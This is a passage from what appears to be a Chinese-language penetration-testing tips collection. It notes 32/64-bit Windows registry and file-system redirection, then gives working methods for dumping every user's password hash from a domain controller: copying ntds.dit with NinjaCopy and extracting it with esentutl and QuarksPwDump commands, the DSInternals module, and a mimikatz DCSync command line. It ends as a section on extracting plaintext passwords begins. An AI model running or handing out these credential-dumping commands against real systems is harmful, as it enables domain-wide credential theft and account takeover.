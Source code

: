 访问HKLM\Software\的实际路径为HKLM\Software\Wow6432Node\

对文件操作：

访问c:\windows\Sysnative\ 的实际路径为 c:\windows\system32\
访问c:\windows\system32\ 的实际路径为 c:\windows\SysWOW64\

参考：

《关于32位程序在64位系统下运行中需要注意的重定向问题》

---

### Tips 16. 获取Windows域控所有用户hash

#### 方法1：

复制ntds.dit：

使用NinjaCopy，https://github.com/3gstudent/NinjaCopy

导出hash：

使用quarkspwdump，https://github.com/quarkslab/quarkspwdump

```
esentutl /p /o ntds.dit
QuarksPwDump.exe -dhb -hist -nt c：\test\ntds.dit -o c：\test\log.txt
```

#### 方法2：

使用powershell：DSInternals PowerShell Module

https://www.dsinternals.com/wp-content/uploads/DSInternals_v2.8.zip

适用条件：

Windows PowerShell 3.0 or 3.0+

.NET Framework 4.0 or 4.0+

参考：

《导出当前域内所有用户hash的技术整理》

《利用Powershell快速导出域控所有用户Hash》

#### 方法3：

mimikatz：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.local /all /csv exit"
```

---

### Tips 17. 导出Windows系统明文口令

Windows Server 2012默认无法使用mimikatz导出明文口令，部分Windows Server 2008也一样
